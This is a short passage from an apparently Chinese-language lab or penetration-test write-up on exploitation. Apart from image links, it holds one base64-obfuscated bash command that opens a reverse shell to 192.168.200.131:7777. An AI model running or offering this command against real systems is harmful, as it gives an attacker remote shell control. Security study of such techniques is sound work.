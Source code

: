 ![1742788551592](image/record/1742788551592.png)

---

### 二. 漏洞利用

#### 1. 自动化exploit脚本编写

![1742750573594](image/record/1742750573594.png)
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzEvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}
```
